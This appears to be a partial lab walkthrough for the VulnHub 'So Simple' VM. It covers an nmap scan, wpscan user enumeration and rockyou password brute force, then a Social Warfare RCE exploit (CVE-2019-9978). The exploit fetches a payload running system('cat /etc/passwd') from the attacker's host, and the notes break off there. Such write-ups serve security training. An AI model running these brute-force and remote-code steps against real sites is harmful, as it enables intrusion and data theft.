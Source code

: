 Download the SoSimple VM from: https://www.vulnhub.com/entry/so-simple-1,515/

Running Nmap: nmap -p- -sV -sC 192.168.101.58

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5b:55:43:ef:af:d0:3d:0e:63:20:7a:f4:ac:41:6a:45 (RSA)
|   256 53:f5:23:1b:e9:aa:8f:41:e2:18:c6:05:50:07:d8:d4 (ECDSA)
|_  256 55:b7:7b:7e:0b:f5:4d:1b:df:c3:5d:a1:d7:68:a9:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: So Simple
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Running dirb: dirb http://192.168.101.58

Running wpscan: wpscan --url http://192.168.101.58/wordpress/ --api-token [yourapitokenhere] --enumerate p,u
You'll need to register to https://wpscan.com/api to get your api-token.

The wpscan found user admin by Author Pattern.
Also found few Critical Vulnerabilities. Now Let's try bruteforcing the password.

sudo wpscan --url http://192.168.101.58/wordpress/ -U admin,max -P /usr/share/wordlists/rockyou.txt                         

Found password for max and logged into the admin panel. Nothing much here.
Check the exploits for outdated plugin: searchsploit social warfare
Found an exploit for the plugin with RCE
Create a payload file with content : <pre>system('cat /etc/passwd')</pre>
use the exploit (cve-2019-9978.py) with command: python2 cve-2019-9978.py --target http://192.168.101.58/wordpress/ --payload-uri http://192.168.211.128:8000/payload.txt
Exploit GithubLink: https://github.com/hash3liZer/CVE-2019-9978

if the exploit doesnt work then open the exploit and copy the vuln path: http://192.168.101.58/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=%s
